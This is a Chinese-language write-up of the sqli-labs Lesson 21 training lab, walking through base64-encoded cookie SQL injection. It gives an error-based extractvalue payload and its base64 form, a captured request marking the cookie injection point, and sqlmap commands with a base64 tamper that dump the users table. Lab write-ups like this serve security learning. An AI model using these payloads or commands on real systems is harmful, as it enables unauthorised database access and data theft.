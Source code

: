 ```yaml
---
title: sqli-labs-lession 21 base64编码单引号和括号的Cookie注入
date: 2018-10-02 19:58:34
tags:
categories: sql注入
---
```


# sqli-labs-lession 21 base64编码单引号和括号的Cookie注入

---

## 登录界面

![1](/img/sql/Lesson-21/001.png)

## 注入过程

这一课从标题就可以发现其实和Lesson-20一样。以admin账户登入后发现本地的Cookie被加密了。

![2](/img/sql/Lesson-21/002.png)

加密方式是base64,通过burpsuite可以解密。

![3](/img/sql/Lesson-21/003.png)

所以伪造的恶意Cookie需要通过base64加密。这里故意加`'`

![4](/img/sql/Lesson-21/004.png)

刷新页面,用burpsuite抓包,修改Cookie。

![5](/img/sql/Lesson-21/005.png)

`admin')#`的base64编码为`YWRtaW4nKSM=`

![6](/img/sql/Lesson-21/006.png)

确认使用`')`闭合

payload:

`admin') and extractvalue(null,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name = 'users'),0x7e))#`

对应的base64编码

`YWRtaW4nKSBhbmQgZXh0cmFjdHZhbHVlKG51bGwsY29uY2F0KDB4N2UsKHNlbGVjdCBncm91cF9jb25jYXQoY29sdW1uX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLmNvbHVtbnMgd2hlcmUgdGFibGVfbmFtZSA9ICd1c2VycycpLDB4N2UpKSM=`

![7](/img/sql/Lesson-21/007.png)

## SQLMAP

这次是在Ubuntu下用的SQLMAP

先用Burpsuite像上一课一样抓包,修改如下

```
GET /sql/Less-21/index.php HTTP/1.1
Host: 192.168.75.131
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.75.131/sql/Less-21/index.php
Cookie: uname=YWRtaW4%3D*
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```



```
--dbms 指定后端数据库
--technique E 指定注入类型为报错注入
--threads 10 指定并发线程数
--level 2 指定检测等级,等级2包括Cookie
--tamper base64encode.py 指定脚本为对base64encode.py(它会对payload进行base64加密)
--flush-session 刷新session
--fresh-queries 建立新的查询
```

`python sqlmap.py -r ../post/post_21.txt --dbms mysql --technique E --threads 10 --level 2 --tamper base64encode.py --flush-session --fresh-queries`

![8](/img/sql/Lesson-21/008.png)

获得payload:

![9](/img/sql/Lesson-21/009.png)

`python sqlmap.py -r ../post/post_21.txt --dbms mysql --technique E --threads 10 --level 2 --tamper base64encode.py -D security -T users --columns --dump`

![10](/img/sql/Lesson-21/010.png)


